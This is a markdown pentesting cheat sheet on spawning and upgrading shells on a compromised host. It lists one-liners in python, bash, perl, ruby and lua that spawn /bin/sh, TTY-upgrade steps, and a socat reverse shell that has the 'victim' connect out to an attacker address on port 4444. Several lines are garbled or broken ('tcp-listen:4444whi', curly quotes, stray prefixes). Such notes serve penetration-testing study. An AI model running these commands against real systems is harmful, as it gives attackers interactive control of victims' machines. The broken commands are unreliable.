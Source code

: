 ```yaml
---
title: Spawn a shell
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting, terminal, shells
---
```


# Spawn a shell

Webshell is a script written in a language that is executed by a server. Web shell are not fully interactive. 

??? note "Resources for upgrading simple shells"
    - [https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html](https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html).
    - [Cheat sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
    - [Shell creation](https://rosettacode.org/wiki/Execute_a_system_command).
    - [About webshells](https://github.com/BlackArch/webshells).


Sidenote: Also, you can generate a webshell by using  msfvenom

## 

```bash
#Upgrafe shell with running these commands all at once:

SHELL=/bin/bash script -q /dev/null
Ctrl-Z
stty raw -echo
fg
reset
xterm
```


## python

```bash
python -c 'import os; os.system("/bin/sh")'
```

```bash
 # using python for a pseudo terminal
python -c 'import pty; pty.spawn("/bin/bash")'
```


## bash

```bash
bash -i

# Using echo
echo 'os.system('/bin/bash')'
```


## ssh

```bash
/bin/sh -i
```


## perl

```bash
perl -e 'exec "/bin/sh";'

perl:  exec "/bin/sh";
```


## ruby

```bash
ruby:  exec "/bin/sh";
```


## lua

```bash
lua: os.execute(‘/bin/sh’)
```
  

## socat

```bash
# Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444whi

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
  

## stty options

```bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'

# Ctrl-Z
 

# In Kali
$ stty raw -echo
$ fg
```
  
```bash
# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```
